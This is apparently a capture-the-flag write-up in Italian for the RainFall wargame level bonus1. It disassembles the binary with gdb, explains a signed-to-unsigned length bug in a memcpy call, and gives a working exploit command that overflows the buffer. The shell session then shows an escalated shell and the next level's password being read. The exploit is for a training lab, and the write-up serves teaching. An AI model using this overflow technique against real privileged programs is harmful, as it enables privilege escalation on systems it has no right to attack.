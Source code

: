 # Bonus 1
Controlliamo le stringhe presenti nel binario:
```
bonus1@RainFall:~$ readelf -p '.rodata' bonus1

String dump of section '.rodata':
  [     8]  sh
  [     b]  /bin/sh
```
dunque all'interno del binario viene sicuramente chiamata una funzione
che avvia la shell.
Ora controlliamo con `gdb`:
```
bonus1@RainFall:~$ gdb -q bonus1
Reading symbols from /home/user/bonus1/bonus1...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482d4  _init
0x08048320  memcpy
0x08048320  memcpy@plt
0x08048330  __gmon_start__
0x08048330  __gmon_start__@plt
0x08048340  __libc_start_main
0x08048340  __libc_start_main@plt
0x08048350  execl
0x08048350  execl@plt
0x08048360  atoi
0x08048360  atoi@plt
0x08048370  _start
0x080483a0  __do_global_dtors_aux
0x08048400  frame_dummy
0x08048424  main
0x080484b0  __libc_csu_init
0x08048520  __libc_csu_fini
0x08048522  __i686.get_pc_thunk.bx
0x08048530  __do_global_ctors_aux
0x0804855c  _fini
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x08048424 <+0>:     push   ebp
   0x08048425 <+1>:     mov    ebp,esp
   0x08048427 <+3>:     and    esp,0xfffffff0
   0x0804842a <+6>:     sub    esp,0x40
   0x0804842d <+9>:     mov    eax,DWORD PTR [ebp+0xc]
   0x08048430 <+12>:    add    eax,0x4
   0x08048433 <+15>:    mov    eax,DWORD PTR [eax]
   0x08048435 <+17>:    mov    DWORD PTR [esp],eax
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:    cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    eax,0x1
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
   0x0804844f <+43>:    mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>:    lea    ecx,[eax*4+0x0]
   0x0804845a <+54>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:    add    eax,0x8
   0x08048460 <+60>:    mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:    mov    edx,eax
   0x08048464 <+64>:    lea    eax,[esp+0x14]
   0x08048468 <+68>:    mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>:    mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>:    mov    DWORD PTR [esp],eax
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:   mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:   mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
   0x0804849e <+122>:   mov    eax,0x0
   0x080484a3 <+127>:   leave
   0x080484a4 <+128>:   ret
End of assembler dump.
```

### Funzione `main`
Riserva 0x40 (64) byte nello stack che comprende un array da 40 byte e
un intero. Successivamente viene chiamata la funzione `atoi` per tradurre
il primo argomento in un numero e controllare se è minore o uguale a 9
così da passare alla funzione `memcpy` copiando nell'array di 40 byte
il numero restituito da atoi per 4 e solo se il numero è uguale a
`0x574f4c46` abbiamo finalmente la shell.

### Soluzione
Ovviamente non possiamo scrivere il numero 0x574f4c46 perchè maggiore di
9 ma possiamo sfruttare i numeri negativi dato che comunque il segno
verrà ignorato da memcpy poichè accetta un `unsigned`.
Dunque al numero `-2147483648` aggiungiamo 1 e avremo la seguente sequenza
di bit:
```
1000 0000 0000 0000 0000 0000 0000 0001
```
ora basterà addizionare 10 per avere:
```
1000 0000 0000 0000 0000 0000 0000 1011
                                  ^----^
                                    11 * 4 = 44
```
quindi abbiamo il numero `-2147483637` come primo argomento, mentre
come secondo argomento adesso basterà scrivere 40 caratteri seguiti 
dal numero `0x574f4c46` così da sovrascrivere correttamente il numero:
```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
$ id
uid=2011(bonus1) gid=2011(bonus1) euid=2012(bonus2) egid=100(users) groups=2012(bonus2),100(users),2011(bonus1)
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$ exit
bonus1@RainFall:~$ su bonus2
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus2/bonus2
bonus2@RainFall:~$
```